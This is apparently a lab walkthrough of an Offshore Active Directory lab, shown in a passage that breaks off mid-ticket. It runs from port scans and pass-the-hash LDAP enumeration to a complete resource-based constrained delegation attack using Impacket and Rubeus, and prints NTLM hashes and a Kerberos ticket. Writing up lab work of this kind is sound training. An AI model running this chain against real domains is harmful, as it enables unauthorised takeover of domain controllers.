









We can start by running a check over all the ports available on the TCP protocoll and that are eventually accessible to us.

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-07-03 11:45:03Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: ADMIN.OFFSHORE.COM, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: DEV)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: ADMIN.OFFSHORE.COM, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV
|   NetBIOS_Domain_Name: DEV
|   NetBIOS_Computer_Name: DC02
|   DNS_Domain_Name: dev.ADMIN.OFFSHORE.COM
|   DNS_Computer_Name: DC02.dev.ADMIN.OFFSHORE.COM
|   DNS_Tree_Name: ADMIN.OFFSHORE.COM
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-03T11:45:55+00:00
|_ssl-date: 2024-07-03T11:46:35+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC02.dev.ADMIN.OFFSHORE.COM
| Issuer: commonName=DC02.dev.ADMIN.OFFSHORE.COM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-02T03:23:05
| Not valid after:  2025-01-01T03:23:05
| MD5:   a73c:b858:9631:6425:6857:cf15:0877:95ff
| SHA-1: 77d5:7f07:1215:0990:070d:0f84:dc64:066a:be79:eb88
| -----BEGIN CERTIFICATE-----
| MIIC+jCCAeKgAwIBAgIQUuEhaIy3w4xI/023q2fPSTANBgkqhkiG9w0BAQsFADAm
| MSQwIgYDVQQDExtEQzAyLmRldi5BRE1JTi5PRkZTSE9SRS5DT00wHhcNMjQwNzAy
| MDMyMzA1WhcNMjUwMTAxMDMyMzA1WjAmMSQwIgYDVQQDExtEQzAyLmRldi5BRE1J
| Ti5PRkZTSE9SRS5DT00wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCV
| ghZtyZUSRNqe+dzh+6NrQDJKyeVqn6LzS3hciRfRMBOgUfYDJ4V+neR7r7F9yHUK
| WYc/0Lcb5w5JpA6Qsj8nh7cREikqXjD+u/LlMwcsfgBrtmoEQYeeKnvUfbCfQrM1
| yoKwopoEJS7o/0ql2uKAXIEH3swPKQ3MfIIXvjbMGjECoCrTKI3gKxYvD8pUGNBH
| UROD0Zfn0WYGt4qySddG9Llkj+c+zwCKd4+JRHoXPUjGf2PfBFEVBXP9oNClLpxk
| uiUZVvdwWmU5obkWgjW1nkcOp6WXegBvbVAuR16ekxAL1ZnIuz+hyMGrobJzkTly
| hakQJyxtHnz4GYk3krBzAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsG
| A1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAkTQbq+XsB2IhDtSmBLo/z/Y5
| S25dOwE2cs3D4mYleOCk6H66W4vAKdqQ51c0zIO6zowJNJ6kU8nnpQrWVb8m9QPn
| ZGMV40GZqakWeiZIUZWafHoPvdBOYakxhAmObpp6WtM17BPIYdwc09sdRERmAq2G
| ryIh0OwJA+FUekLkcNglCEb47KW6DjgNaI+9px2LAtVFSn0/vFB1zDo4DV61TpZF
| 4S3jOfx5UkYgCgIaYeEziRmwKsLS2VDoHfs9WxO5/aOAa2Dw6bpH03hrTriwCgMQ
| UAiFk7rl9DLA+u0h+Vei27mN2L4+A+RpYEedOBqpVK88nw2VkQInmYAiww1EQA==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49678/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49703/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
```

We can do same but this time for the UDP services.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.2.6          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-03 13:53 CEST
Nmap scan report for 172.16.2.6
Host is up (0.014s latency).
Not shown: 98 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 18.01 seconds
```

&nbsp;

# Checking around

Now since we have a trust between them we may want to try to use the DA@corp.local to see that the new domain it is connected to another subdomain:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec ldap 172.16.2.6 -u 'Administrator' -H 0109d7e72fcfe404186c4079ba6cf79c -d 'corp.local' -M enum_trusts
SMB         172.16.2.6      445    DC02             [*] Windows Server 2016 Standard 14393 x64 (name:DC02) (domain:dev.ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
LDAP        172.16.2.6      389    DC02             [+] corp.local\Administrator:0109d7e72fcfe404186c4079ba6cf79c (Pwn3d!)
ENUM_TRUSTS 172.16.2.6      389    DC02             [+] Found the following trust relationships:
ENUM_TRUSTS 172.16.2.6      389    DC02             ADMIN.OFFSHORE.COM -> Bidirectional -> Within Forest
ENUM_TRUSTS 172.16.2.6      389    DC02             corp.local -> Bidirectional -> Quarantined Domain
```

We can also see the users in the domain?

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec ldap 172.16.2.6 -u 'Administrator' -H 0109d7e72fcfe404186c4079ba6cf79c -d 'corp.local' --users           
SMB         172.16.2.6      445    DC02             [*] Windows Server 2016 Standard 14393 x64 (name:DC02) (domain:dev.ADMIN.OFFSHORE.COM) (signing:True) (SMBv1:True)
LDAP        172.16.2.6      389    DC02             [+] corp.local\Administrator:0109d7e72fcfe404186c4079ba6cf79c (Pwn3d!)
LDAP        172.16.2.6      389    DC02             [*] Total records returned: 6
LDAP        172.16.2.6      389    DC02             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        172.16.2.6      389    DC02             Administrator                 2020-06-04 20:27:39 1       Built-in account for administering the computer/domain      
LDAP        172.16.2.6      389    DC02             Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        172.16.2.6      389    DC02             DefaultAccount                <never>             0       A user account managed by the system.                       
LDAP        172.16.2.6      389    DC02             krbtgt                        2018-05-31 22:25:09 0       Key Distribution Center Service Account                     
LDAP        172.16.2.6      389    DC02             IIS_dev                       2018-08-15 14:51:41 0                                                                   
LDAP        172.16.2.6      389    DC02             joe                           2018-07-17 03:14:13 0
```

I will run a bloodhound test and try to fetch a better picture of the domain.

And seems like the server is not vulnerable to Zerologon:



So far I don't see other juicy way in so i will move on to the next target.

&nbsp;

# Attacking AD

Since I am kinda short with things to do I got another tips and apparently I missed to check the Joe account on the new domain, apparently he have a special permission that allows him to use without password?

```
(LDAP)-[172.16.2.6]-[CORP\yovecio]
PV > Get-DomainUser 
cn                                : joe
distinguishedName                 : CN=joe,CN=Users,DC=dev,DC=ADMIN,DC=OFFSHORE,DC=COM
memberOf                          : CN=Workstation Admins,CN=Users,DC=dev,DC=ADMIN,DC=OFFSHORE,DC=COM
name                              : joe
objectGUID                        : {2a812f42-0009-4156-91df-37d082d851c4}
userAccountControl                : PASSWD_NOTREQD [544]
                                    NORMAL_ACCOUNT
badPwdCount                       : 2
badPasswordTime                   : 2024-07-03 13:17:17.602079
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 2023-12-11 08:27:28.318338
pwdLastSet                        : 2018-07-17 03:14:13.376776
primaryGroupID                    : 513
objectSid                         : S-1-5-21-1416445593-394318334-2645530166-1604
adminCount                        : 1
sAMAccountName                    : joe
sAMAccountType                    : 805306368
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=ADMIN,DC=OFFSHORE,DC=COM
```

I will temporarily move on to `WS03.dev.admin.offshore.com`.

&nbsp;

# AD Analysys

With Joe's(non existent) credentials I will run bloodhound and grab a snapshot of the AD picture.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# bloodhound-python -d "DEV.ADMIN.OFFSHORE.COM" -u "JOE" -no-pass -ns 172.16.2.6 -c All --zip 
Password: 
INFO: Found AD domain: dev.admin.offshore.com
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc02.dev.admin.offshore.com
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc02.dev.admin.offshore.com
INFO: Connecting to GC LDAP server: dc02.dev.admin.offshore.com
INFO: Found 7 users
INFO: Found 50 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WS03.dev.ADMIN.OFFSHORE.COM
INFO: Querying computer: DC02.dev.ADMIN.OFFSHORE.COM
WARNING: SID S-1-5-21-1416445593-394318334-2645530166-1110 lookup failed, return status: STATUS_NONE_MAPPED
INFO: Done in 00M 08S
INFO: Compressing output into 20240703173105_bloodhound.zip
```

Immediately we can see he have GenericWrite over the DC02 which means RBDC:



We can see he is part of Workstation Admins which enables us accessing the WS03:



Without further do i will perform a RBCD so I can get access to DC and successively access other stuffs on the domain.

We need first to add a dummy PC on the domain:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# addcomputer.py -computer-name 'YOVECIO$' -computer-pass 'Coglione1!' -dc-host DC02.DEV.ADMIN.OFFSHORE.COM -domain-netbios DEV.ADMIN.OFFSHORE.COM 'DEV.ADMIN.OFFSHORE.COM/JOE'

Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

Password:
[*] Successfully added machine account YOVECIO$ with password Coglione1!.
```

Next, we need to write the attribute that allows the `DC02` to act on behalf of out dummy machine.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# rbcd.py -delegate-from 'YOVECIO$' -delegate-to 'DC02$' -action write 'DEV.ADMIN.OFFSHORE.COM/JOE'
Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[*] No credentials supplied, supply password
Password:
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] YOVECIO$ can now impersonate users on DC02$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     YOVECIO$     (S-1-5-21-1416445593-394318334-2645530166-11601)
```

Lastly we ask for a TGS that will act for impersonation as `Admininstrator@dev.admin.offshore.com` domain.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# getST.py -spn 'cifs/DC02.DEV.ADMIN.OFFSHORE.COM' -impersonate 'Administrator' 'DEV.ADMIN.OFFSHORE.COM/YOVECIO$:Coglione1!' 

Impacket v0.12.0.dev1+20240627.143539.f553b93b - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM.ccache
```

Now we point the new kirbi ticket to us:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# export KRB5CCNAME=/home/millycash/Downloads/OffShore/Administrator@cifs_DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM.ccache 
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# klist    
Ticket cache: FILE:/home/millycash/Downloads/OffShore/Administrator@cifs_DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM.ccache
Default principal: Administrator@DEV.ADMIN.OFFSHORE.COM

Valid starting     Expires            Service principal
07/04/24 10:44:54  07/04/24 20:44:54  cifs/DC02.DEV.ADMIN.OFFSHORE.COM@DEV.ADMIN.OFFSHORE.COM
    renew until 07/05/24 10:44:52
```

But as usual it keeps telling me issues about the ticket from Linux, this might be cause by the time diff between my computer and the DC.



So i decided to run another time bloodhould and seems like indeed I did a great job, all the prerequisites are in place.



Since it fails I want to do same but this time from a Windows machine via Rubeus.exe. First we need to generate the NTLM hash of the computer(YOVECIO$) password:

```
PS C:\Temp> ./Rubeus.exe hash /password:Coglione1!

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Coglione1!
[*]       rc4_hmac             : 71DDAFA4193CAA4376AAE61BCFEAF9D5

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!

PS C:\Temp>
```

Now the issue I am having is that I need to do it from WS03 otherwise it will mess up trying to use the DC01@corp.local. But anyway doing it from Windows on WS03 we got a ticket:

```
C:\Temp> Rubeus.exe s4u /user:YOVECIO$ /rc4:71DDAFA4193CAA4376AAE61BCFEAF9D5 /impersonateuser:Administrator /msdsspn:cifs/DC02.DEV.ADMIN.OFFSHORE.COM /ptt /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: S4U

[*] Using rc4_hmac hash: 71DDAFA4193CAA4376AAE61BCFEAF9D5
[*] Building AS-REQ (w/ preauth) for: 'dev.ADMIN.OFFSHORE.COM\YOVECIO$'
[*] Using domain controller: 172.16.2.6:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFzjCCBcqgAwIBBaEDAgEWooIExTCCBMFhggS9MIIEuaADAgEFoRgbFkRFVi5BRE1JTi5PRkZTSE9SRS5DT02iKzApoAMCAQKhIjAgGwZrcmJ0Z3QbFmRldi5BRE1JTi5PRkZTSE9SRS5DT02jggRpMIIEZaADAgESoQMCAQKiggRXBIIEU1K+I51sOfgs4ifCcdkYmnPEiZHpHxJPnG+Qwx/AC0uSWm63P5opiOYY8KfFRACgEfg/dGQIFuCyGIRU2epiO41+LVvnTOMvmCseE+nwQHwRxWdlprLQ1Zq8I2zPzZULWReoROVZH90Dx+aNU1ZNkq3prkzB4FLubRzY+37ugruKxORFFo8R5m1H2SSr1Bm+bZWvIqn0R7kY56ndpKEpeC4QjY8bJqL1hLU4wmxOLnJKnMfk/fuBKVIaY/ctthPnwEqyPxnHhsG0yElZaO5aZH7VLenDg/XHTSZHPz79AjrpEGrQVMWJJMAhJx36W1DL8wPyxO/X1ScnyUS//ztPUPmYRznKkZWLMDXOUT8CW6/+17HbggiAEAnaIF2QkR2fu0VzgtV190re2ctF3WMT1LJFffMVO5jttp2G0EHaGTdZ4YkzVaY/rM47EtWJIk2tT4ngattOsk2mkc6p62jtyTD2v7RKTd2ChUF8fB0s2W+WuYu0YzoydvD+HXncf9/sF7mpn5rpxoB4l8/VGVZrb3OYRHRtALzAMO8JmJKeY9LTZgFkcBN37m9fQ8yYydSt4f4BQEobZ1cVL2WZEji/0bL1epbnCb1JzJoxt2IZ5ioRl5W/v2FokTGTcZcbd7W9LxkKKKV2qRPgUGO56ejipiyJSMELOOuqfVhUKcPzlhpiZ9lHyNg2yrCxISDSWX6DH7JnzulDu5v82I474UX7mn1xzIuBfUOjecenZXnB30q8kpsOPQyKMTUb6tAHvNgcmWqXqOe1fspWteMUAUbSv4tEgNrehj/UyZ2gNbb6+VSWtpkVtJ1xmG1r/Wl7ICrN6BjbISffZS2GE7T47Npj/xJ8baFHxkXRrZIKstfOQQntEWLUySp0PwfF1Gh3QpzS6xemOKlg8iSIMkBlSJrJtMkkGdpN/uo0zJfxbsoKPY82RcNQRUuk2hw7lvhk0g3binxsTW8KKuOboAMV/lbVm46S+u2Cqx9U7EeHpsyVOiTjgMbKjP5e+Wd1/gc5D1ze2IBZhlH1Nv6tDljPJQ7tnndTFM5onc1bHAKp6dxSQ6INVHJQEWR1gLK7R3diUrjzWKLphZNNJ2GgZGfeQ7NqQiIZNX68WB+uEdV/+ysBIeDjy0sqObBmF5PwCJ8QGUgmt8L6xWgGdONeg+qwVKgJaPUuk/olaazmxdS8Px3hFlfuAvGpVCL9zqxuHvBw4QQs0cGbqbJ1QhxcHgIMZnqHfH79BaKUzBZ1zgOGn1Trd9wIddwshQV5D/SVvAHiFtGxej2PPE+joDXU/XrYntSpAgeJsR7qX7n8zFUd2NHNPpVsN3Afss/0XfjUJcIUul/Civdmd4mcAQNdvlfneFGTvzyd2EaEqQu2gWJzRrxPJYn0HQ7Y/sH+hVSUo3By7dVTCxeP7QY+CI9bHp+fdPDBVbZwdtyi+Wn0kaq0Qh+5B/9QLun+DuZM8uX7HKi9Gis9Sqe9v6OB9DCB8aADAgEAooHpBIHmfYHjMIHgoIHdMIHaMIHXoBswGaADAgEXoRIEEOC49HnT8UlF1AJgsMqKC5+hGBsWREVWLkFETUlOLk9GRlNIT1JFLkNPTaIVMBOgAwIBAaEMMAobCFlPVkVDSU8kowcDBQBA4QAApREYDzIwMjQwNzA0MDk1ODA3WqYRGA8yMDI0MDcwNDE5NTgwN1qnERgPMjAyNDA3MTEwOTU4MDdaqBgbFkRFVi5BRE1JTi5PRkZTSE9SRS5DT02pKzApoAMCAQKhIjAgGwZrcmJ0Z3QbFm